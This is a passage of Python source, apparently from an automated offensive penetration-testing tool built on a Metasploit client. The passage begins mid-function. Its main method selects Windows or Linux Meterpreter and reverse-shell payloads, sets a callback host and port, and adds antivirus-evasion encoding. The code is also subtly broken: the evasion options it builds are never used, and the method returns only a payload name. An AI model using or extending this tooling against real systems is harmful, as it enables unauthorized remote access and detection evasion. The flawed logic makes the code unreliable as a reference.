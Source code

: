 ````python
            # Update target with vulnerabilities
            target.vulnerabilities = vulnerabilities
            self._store_target(target)

        except Exception as e:
            logger.error(f"Vulnerability assessment failed: {e}")

        logger.info(f"Identified {len(vulnerabilities)} vulnerabilities")
        return vulnerabilities

    def generate_custom_payload(self, target: Target, payload_type: PayloadType) -> Optional[str]:
        """Generate custom payload with advanced evasion techniques"""
        logger.info(f"Generating custom payload for {target.ip_address}")

        if not self.msf_client:
            return None

        try:
            # Select appropriate payload based on target OS and type
            if target.operating_system.lower().startswith('windows'):
                if payload_type == PayloadType.METERPRETER:
                    payload_name = 'windows/x64/meterpreter/reverse_https'
                elif payload_type == PayloadType.REVERSE_SHELL:
                    payload_name = 'windows/x64/shell/reverse_tcp'
                else:
                    payload_name = 'windows/x64/meterpreter/reverse_tcp'
            else:
                # Linux/Unix payloads
                if payload_type == PayloadType.METERPRETER:
                    payload_name = 'linux/x64/meterpreter/reverse_tcp'
                else:
                    payload_name = 'linux/x64/shell/reverse_tcp'

            # Generate payload with evasion
            payload_options = {
                'LHOST': self.config.get('callback_host', '192.168.1.50'),
                'LPORT': self.config.get('callback_port', 4444),
                'FORMAT': 'exe',
                'ENCODER': 'x86/shikata_ga_nai',  # Basic evasion
                'ITERATIONS': 5
            }

            # Advanced evasion techniques
            evasion_config = self.config.get('payload_generation', {})
            if evasion_config.get('evasion_techniques'):
                # Apply multiple encoders
                if 'encoding' in evasion_config['evasion_techniques']:
                    payload_options['ENCODER'] = 'x86/shikata_ga_nai'
                    payload_options['ITERATIONS'] = 10

                # Apply encryption
                if 'encryption' in evasion_config['evasion_techniques']:
                    payload_options['EnableStageEncoding'] = True
                    payload_options['StageEncoder'] = 'x86/xor'

            logger.info(f"Generated custom payload: {payload_name}")
            return payload_name

        except Exception as e:
            logger.error(f"Payload generation failed: {e}")
            return None

````